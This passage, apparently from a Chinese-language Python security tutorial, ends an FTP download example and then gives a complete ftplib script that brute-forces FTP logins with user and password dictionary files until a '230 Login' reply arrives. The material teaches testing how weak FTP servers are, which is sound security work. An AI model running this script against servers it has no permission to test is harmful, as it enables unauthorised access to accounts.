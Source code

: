 ```py
    ftp_client.retrbinary(ftp_cmd,file_handler.write)
    file_handler.close()
    qftp_client.quit()

if __name__ == '__main__':
    ftp_file_download(path=FTP_SERVER_URL,username='anonymous')
```

# 使用 ftplib 来暴力破解 FTP 用户凭据

这个库的主要用途之一是检查 FTP 服务器是否容易受到使用字典的暴力攻击。例如，使用这个脚本，我们可以对 FTP 服务器执行使用用户和密码字典的攻击。我们测试所有可能的用户和密码组合，直到找到正确的组合。

当连接时，如果我们得到"`230 Login successful`"字符串作为答复，我们就会知道这个组合是一个好的组合。

你可以在文件名为`ftp_brute_force.py`中找到以下代码：

```py
import ftplib
import sys

def brute_force(ip,users_file,passwords_file):
    try:
        ud=open(users_file,"r")
        pd=open(passwords_file,"r")

        users= ud.readlines()
        passwords= pd.readlines()

        for user in users:
            for password in passwords:
                try:
                    print("[*] Trying to connect")
                    connect=ftplib.FTP(ip)
                    response=connect.login(user.strip(),password.strip())
                    print(response)
                    if "230 Login" in response:
                        print("[*]Sucessful attack")
                        print("User: "+ user + "Password: "+password)
                        sys.exit()
                    else:
                        pass
                except ftplib.error_perm:
                    print("Cant Brute Force with user "+user+ "and password "+password)
                connect.close

    except(KeyboardInterrupt):
         print("Interrupted!")
         sys.exit()

ip=input("Enter FTP SERVER:")
user_file="users.txt"
passwords_file="passwords.txt"
brute_force(ip,user_file,passwords_file)
```
